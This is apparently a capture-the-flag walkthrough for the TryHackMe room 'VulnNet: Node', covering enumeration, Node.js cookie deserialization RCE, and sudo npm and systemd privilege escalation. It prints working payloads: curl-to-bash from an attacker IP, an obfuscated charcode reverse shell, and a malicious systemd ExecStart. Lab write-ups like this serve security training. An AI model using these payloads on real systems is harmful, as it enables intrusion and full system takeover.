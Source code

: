 ```yaml
---
description: Javascript
---
```


# 24 - VulnNet: Node

Room Link --> [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

### Enumertion

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sS 10.10.234.78 -Pn -n -p- -T5 -vv

# output
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wappalyzer shows us the page is running NodeJS.

Enumerating with gobuster, ffuf returned "/login". Intercepting the request with burpsuite, we see we are already assigned a  cookie.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>in b64 format</p></figcaption></figure>

Lets decode it, in the decoder bar i selected decode as b64.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the screenshot above we some some JSON encoded data. My first thought was maybe we could bypass the whole login process if we might change the cookie making the web application think we are admins

And i tried that first

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt="" height="288" width="700"><figcaption></figcaption></figure>

Next i sent the modified session cookie and the web application throws a 500 statuscode error.

\


<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When you google NodeJS Serialization exploits, you stumble on this article: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is the payload.
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
{% endcode %}

We will modify the following payload a bit to get it working.

To make sure that the exploit was working i tried pinging myself. First i did set up a tcpdump listener.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got some replies back.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
# final payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.18.88.214/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

# or we can use the nodeshell.py script on github:
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,56,46,56,56,46,50,49,52,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","isGuest":true,"encoding": "utf-8"}
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Ess to Serv-manage

`sudo -l` - we can run npm with sudo as user "serv-manage"

So, we create a package.json with the following content:

<pre class="language-bash"><code class="lang-bash"><strong>echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
</strong></code></pre>

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

### Priv Esc to root

Running sudo -l again, we find that we can edit a system ditimer service called vulnnet-auto.timer

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We are in the "serv-manage" group, so we have "RW" permissions to  modify this file.

<figure><img src=".gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Let’s use locate to find the vulnnet service we have access to and examine it.

This service appears to refer to another service vulnnet-job.service let’s take a look at it too.

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service

# modified to
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.18.88.214/shell.sh | bash"

[Install]
WantedBy=multi-user.target


```
{% endcode %}

Note i had to create a shell.sh file then put bash one-liner rev shell in it, and serve it in python server.

<figure><img src=".gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Done.

